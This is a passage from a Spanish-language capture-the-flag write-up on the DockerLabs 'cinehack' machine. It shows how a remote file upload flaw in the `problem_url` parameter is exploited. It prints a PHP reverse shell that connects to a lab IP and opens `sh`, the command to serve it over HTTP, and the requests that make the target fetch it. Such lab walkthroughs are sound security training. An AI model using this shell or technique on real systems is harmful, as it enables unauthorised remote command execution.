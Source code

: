 ![](assets/img/dockerlabs-writeup-cinehack/cinehack1_5.png)

La vulnerabilidad se encuentra en el parámetro `problem_url`, el cual parece permitir la carga de archivos remotos. Para explotar esta falla y subir un archivo malicioso, es necesario modificar la solicitud y agregar el parámetro en la URL en lugar del cuerpo.

```http
POST /reservation.php?problem_url=http%3a//xx.xx.xx.xx%3axx/shell.php` HTTP/1.1
```

Utilicé el siguiente script como web shell:

```php
<?php
$sock=fsockopen("192.168.0.171",4321);
$proc=proc_open("sh", array(0=>$sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

Levanté un servidor HTTP para alojar la shell.

```terminal
/home/kali/Documents/dockerlabs/cinehack:-$ python3 -m http.server
```

Y envié la solicitud para cargar la shell en el sistema objetivo.

```http
POST /reservation.php?problem_url=http%3a//192.168.0.171%3a8000/shell.php HTTP/1.1
```

![](assets/img/dockerlabs-writeup-cinehack/cinehack1_6.png)
